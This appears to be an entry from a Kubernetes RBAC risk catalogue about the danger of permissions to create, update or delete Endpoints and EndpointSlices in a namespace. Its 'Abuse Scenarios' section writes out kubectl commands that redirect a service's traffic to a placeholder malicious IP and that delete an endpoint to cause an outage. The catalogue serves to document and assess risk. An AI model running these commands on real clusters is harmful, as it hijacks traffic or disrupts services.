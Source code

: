 ```yaml
---
id: 1074
title: "Manage Endpoints or EndpointSlices in a namespace"
description: "Permits creating, updating, or deleting Endpoints/EndpointSlices for services within a specific namespace. This can lead to traffic redirection, denial of service, or network policy bypass for applications within that namespace."
category: NetworkManipulation
risk_level: RiskLevelHigh
date: ""
---
```


## Overview

| Field         | Value                                                                                                                    |
| ------------- | ------------------------------------------------------------------------------------------------------------------------ |
| ID            | 1074                                                                                                                     |
| Name          | Manage Endpoints or EndpointSlices in a namespace                                                                        |
| Risk Category | NetworkManipulation                                                                                                      |
| Risk Level    | {{< risk High >}}                                                                                                        |
| Role Type     | Role                                                                                                                     |
| API Groups    | core, discovery.k8s.io                                                                                                   |
| Resources     | endpoints, endpointslices                                                                                                |
| Verbs         | create, update, patch, delete, get, list                                                                                 |
| Tags          | {{< tag "DenialOfService" >}} {{< tag "NetworkManipulation" >}} {{< tag "Tampering" >}} {{< tag "TrafficRedirection" >}} |

## Description

Permits creating, updating, or deleting Endpoints/EndpointSlices for services within a specific namespace. This can lead to traffic redirection, denial of service, or network policy bypass for applications within that namespace.

## Abuse Scenarios

1. Create a new Endpoint to redirect traffic for a service in the namespace.

```bash
kubectl create -n <namespace> -f - <<EOF
apiVersion: v1
kind: Endpoints
metadata:
  name: <service-name> # Must match an existing service name
subsets:
  - addresses:
      - ip: <malicious-ip-address>
    ports:
      - port: <service-port>
EOF
# Example: kubectl create -n default -f - <<EOF ... EOF (redirect 'my-app-service')

```

2. Delete an existing Endpoint within the namespace, causing service disruption.

```bash
kubectl delete endpoint <endpoint-name> -n <namespace>
# Example: kubectl delete endpoint my-frontend-service -n default

```
